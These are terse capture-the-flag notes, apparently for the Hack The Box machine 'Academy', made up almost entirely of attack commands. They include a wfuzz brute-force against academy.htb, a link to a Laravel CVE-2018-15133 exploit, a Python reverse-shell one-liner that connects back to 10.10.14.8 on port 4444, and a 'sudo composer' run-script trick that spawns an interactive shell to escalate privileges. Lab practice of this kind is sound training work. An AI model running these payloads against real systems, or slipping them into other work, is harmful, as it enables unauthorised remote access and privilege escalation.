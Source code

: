 Academy
==========================================
wfuzz -z file,/usr/share/wordlists/wfuzz/general/common.txt -u http://academy.htb/FUZZ.php --hc 404

<https://github.com/aljavier/exploit_laravel_cve-2018-15133>

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
